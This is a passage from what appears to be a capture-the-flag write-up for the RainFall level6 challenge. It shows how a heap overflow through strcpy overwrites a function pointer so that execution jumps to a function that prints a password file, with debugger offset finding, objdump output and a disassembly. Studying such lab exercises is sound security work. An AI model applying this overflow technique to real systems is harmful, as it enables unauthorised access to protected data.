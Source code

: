 ```c
    system("/bin/cat /home/user/level7/.pass");
    return;
}
```

## Exploitation Strategy

We need to:
1. Overwrite the function pointer after the 64-byte buffer.
2. Redirect execution to `n()`, which prints the password.

### Finding the Overflow Offset
Using a cyclic pattern:
```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```
Finding the exact overwrite offset:
```bash
gdb-peda$ pattern offset 0x65414149
1698775369 found at offset: 72
```

### Finding the Target Function Address
```bash
level6@RainFall:~$ objdump -d level6  | grep -w n
08048454 <n>:
```


### Diving Deep into Heap Memory to Understand What Happens  

I intend to set four breakpoints to observe what happens after `malloc()`, when the address of the `m` function is stored in the second allocation (4), and after the overflow occurs.
```
pwndbg> disassemble 
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
=> 0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
```